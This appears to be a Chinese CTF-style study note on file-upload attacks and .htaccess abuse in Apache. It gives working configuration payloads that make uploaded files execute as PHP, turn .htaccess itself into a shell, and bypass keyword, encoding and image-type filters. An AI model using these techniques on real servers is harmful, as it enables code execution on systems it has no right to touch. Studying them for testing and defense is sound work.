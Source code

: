 # 0x01 文件上传

## 1.1 基础概念

## 1.2 Bypass

## 1.3 漏洞修复











# 0x02 Htaccess文件

## 2.1 基础概念

`.htaccess`文件是apache服务器的一种目录级别的修改配置的方式，可以用来配置当前目录及其所有子目录，常常被用于访问URL时重写路径；

```
/etc/apache2`下有两个文件夹`mods-enable`和`mods-available
```

- `mods-enable`里装的是apache已经被启用的模块
- `mods-available`里装的是当前系统可用的模块

## 2.2 利用方式

### 2.2.1 `SetHandler`

1. 文件解析

`.htaccess`文件写入一下内容：

```
SetHandler application/x-httpd-php
```

此时当前目录及其子目录下的所有文件都会被当做PHP解析

```
SetHandler text/plain
```

此时当前目录下的所有文件都会被当做文本解析

1. 服务器状态

```
SetHandler server-status
```

这种方式利用apache的服务器状态信息(默认关闭)，可以查看所有访问本站的记录。

还可以通过`?refresh=5`来设置更新时间

1. 利用以下的方式

- apache需要加载`cgi_module`

```php
Options +ExecCGI
AddHandler cgi-script .xx
```

写入一个sh文件

```php
#! /bin/bash

echo Content-type: text/html

echo ""

cat /flag
```

### 2.2.2 `AddType`

`AddType` 可以指示文件管理系统，对指定的后缀文件以选定的文件类型解析

设置`.htaccess`为以下内容：

```
AddType application/x-httpd-php .a
```

### 2.2.3 `php_value`

可通过`php_value`来配置PHP的配置选项，还能够使用`php_flag name on|off`设置布尔值的配置指令

![img](assets/1654834261883-88232171-1c2b-4549-8709-0e1d5b8458c4.png)

在`.htaccess` 中可以设置两种模式，一种是`php_ini_predir、php_ini_all`

1. **两个相关配置**

- - `auto_prepend_file` 指定一个文件，在主文件解析之前自动解析
  - `auto_append_file` 指定一个文件，在主文件解析之后自动解析

那么可以编写一下配置文件：

```
php_value auto_prepend_file xxx
```

1. **绕过**`**pcre**`

![img](assets/1654834468523-b04fe726-4d46-44d0-9594-751514899b39.png)

编写一下配置：

```php
php_value pcre.backtrack_limit 0
php_value pcre.jit 0
```

1. **允许查看**`**htaccess**`**文件规则**

 默认情况下,`htaccess`文件是不可以访问的，那么可以添加一下配置

```php
<Files ~ "^.ht">
    Require all granted
    Order allow,deny
    Allow from all
</Files>
```

1. **直接使用**`**htaccess**`**作为**`**shell**`

1. 1. **首先禁用拒绝规则，使得可以访问到**`**htaccess**`**。**
   2. **然后在利用**`**SetHandler**`**将所有文件作为PHP解析。**
   3. **写入PHP代码，利用#注释。**

```php
<Files ~ "^.ht">
 Require all granted
 Order allow,deny
 Allow from all
</Files>
SetHandler application/x-httpd-php
# <?php phpinfo(); ?>
```

## 2.2.3 Bypass

### 3.1 关键字

#### 1. 关键字过滤

如果过滤了`htaccess` 常用的关键字，那么可以使用反斜杠来绕过对关键字的过滤，反斜线后需要换行，并且反斜线前无空格和其它字符。

```php
AddT\
ype application/x-httpd-php .abc
```

#### 2. 字符编码

如果检测不能含有`<?`等PHP字符串，那么对`shell`内容进行编码，在文件包含时利用`php://filter`进行绕过

```php
AddType application/x-httpd-php .abc
php_value auto_prepend_file php://filter/convert.base64-decode/resource=1.abc
```

#### 3. 设置默认编码方式

![img](assets/1654835183275-5a3abb90-226a-4cfb-82d1-9f3b889d9763.png)



```php
AddType application/x-httpd-php .aaa
php_flag zend.multibyte 1
php_value zend.script_encoding "UTF-7"
```

对上传的`xxx.aaa`文件进行相对应的编码就行。

### 3.2 拼接无用字符串

#### 1. 注释多行内容

因为`#` 可以注释多余内容，利用`\`可以转义换行，那么可以通过一下的配置写入多余内容

```php
AddT\
ype application/x-httpd-php .abc #\
asdf\
asdf
```

#### 2.利用空白字符替代#

利用`0x00`也可以绕过#



### 2.3.3 文件格式

利用`#define`或者是以`0X00`开头 来绕过`exif_imagetype` 对文件类型的判断。

```php
#define 1_png_width 120
#define 1_png_height 20
```

### 2.3.4 字符限制

如果对于字符进行过滤，那么只能过尝试去包含其它文件的方式来进行绕过

```php
php_value auto_append_file "/tmp/sess_gtfly"
php_value session.save_path "/tmp"
php_flag session.upload_progress.cleanup off
```



如果我们不知道`session`路径，那么可以通过配置指定，同时将`cleanup` 设置为`off`



### 参考文章

[.htaccess利用与Bypass方式总结](https://www.anquanke.com/post/id/205098#h3-7)

[apache 的shell](https://www.freebuf.com/vuls/218495.html)

[htaccess shell](https://github.com/wireghoul/htshells.git)